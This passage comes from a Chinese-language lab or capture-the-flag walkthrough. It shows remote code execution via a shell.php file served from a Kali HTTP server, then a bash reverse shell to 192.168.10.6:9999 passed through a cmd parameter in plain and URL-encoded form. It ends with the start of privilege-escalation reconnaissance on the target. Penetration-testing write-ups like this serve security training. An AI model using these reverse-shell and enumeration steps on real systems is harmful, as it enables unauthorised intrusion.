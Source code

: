 把这个代码写入shell.php  
文件，然后再kali  
中，使用python  
开启一个http  
服务，观察是否可行  
  
**「注意，一定不要把kali中的http服务关闭，因为远程代码执行需要调用的」**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/y4VoXticAsO6AOnJ4qTJwicCPfLobclXXc43eFV8jKXVfialDILUKDtMLmPEt6JL9UPBRpcGSrGnyqKS4o16wAGTg/640?wx_fmt=jpeg&from=appmsg "")  
  
可以看到，我们的代码确实通过远程执行了，所以这里就直接通过传参cmd  
反弹shell  
```
bash -i >& /dev/tcp/192.168.10.6/9999 0>&1
#需要进行url编码
bash%20-i%20%3e%26%20%2fdev%2ftcp%2f192.168.10.6%2f9999%200%3e%261

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/y4VoXticAsO6AOnJ4qTJwicCPfLobclXXcsQcypa2W8Lox5F6C4r9Dmib9zeoF0ujRMNvrFks0rfCPJWpGniaeWpow/640?wx_fmt=jpeg&from=appmsg "")  
# 提权  
## 靶机内信息收集  
  
查看网络连接  
```
ss -antlp

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/y4VoXticAsO6AOnJ4qTJwicCPfLobclXXcz70icJsVoia15f290Mj4ZsnlN0orSFrZVDyeK7SMAYZbESCsn6miadQyw/640?wx_fmt=jpeg&from=appmsg "")  
  
查看ip  
地址，确定当前是否处在虚拟环境，确实未处于虚拟环境  
```
ip add

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/y4VoXticAsO6AOnJ4qTJwicCPfLobclXXcGv5tcxOicX1hUHL4lxITSVvTbGTgiaXyW3sPox8Y6bOmakX3zssicU5Uw/640?wx_fmt=jpeg&from=appmsg "")  
  
查看以root  
的进程  
```
ps aux | grep root

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/y4VoXticAsO6AOnJ4qTJwicCPfLobclXXcY65TGDDWu8ibgX0n7XSksM1iaficw4f4cT6QdmoMzQouh1oVg7RglAU4w/640?wx_fmt=jpeg&from=appmsg "")  
  
查看内核版本以及系统版本  
```
uanme -a/-r
cat /etc/issue
cat /etc/*release

```  
  